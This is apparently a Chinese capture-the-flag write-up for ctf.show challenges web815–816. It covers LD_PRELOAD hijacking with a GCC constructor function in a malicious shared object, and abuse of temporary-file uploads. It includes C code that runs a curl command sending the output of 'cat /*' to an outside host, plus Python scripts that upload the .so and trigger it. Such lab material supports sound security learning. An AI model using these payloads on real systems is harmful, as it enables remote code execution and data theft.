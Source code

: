 原理：生成恶意so文件，然后放到环境变量中，等进程加载该so文件后，从而达到命令执行的结果。

##  web815

考点：劫持构造器

上面的例子构造的so文件是劫持某一个函数

下面的一个比较通用：

在GCC 有个 C 语言扩展修饰符 __attribute__((constructor))，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行__attribute__((constructor)) 修饰的函数。

所以这个写出的C文件

```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void hack(void)
{
    unsetenv("LD_PRELOAD");
    system("echo z3eyond");
    system("curl http://xxx:12345/?a=`cat /*`;");
}
```

本子：

```python

import requests
url="http://0ff2bf53-5121-42ea-bef7-3d43cc5fe03b.challenge.ctf.show/"
data={'file':'/tmp/shell.so','content':open('shell.so','rb').read()}
requests.post(url+'?a=write',data=data)
requests.get(url+'?a=run&env=LD_PRELOAD=/tmp/shell.so')
```

##  web816

考点：上传临时文件，来劫持进程达到RCE

这个位置没有上传文件的地方，但是我们可以利用临时文件来利用。

我们将恶意so文件上传上去，会作为临时文件保存到`/tmp/`目录下

然后有`$env.scandir("/tmp")[2]`得到临时文件路径，从而达到利用`LD_PRELOAD`的环境变量来RCE

注意：一般临时文件上传上去，不好拿到文件名

so文件可以不变

直接给本子

```python
import requests
url="http://ed96f432-b5eb-405f-8875-dd1363f5c843.challenge.ctf.show/?env=LD_PRELOAD=/tmp/"
files={'file':open('shell.so','rb').read()}
response=requests.post(url,files=files)
response=requests.post(url,files=files)
html = response.text
print(html)
```
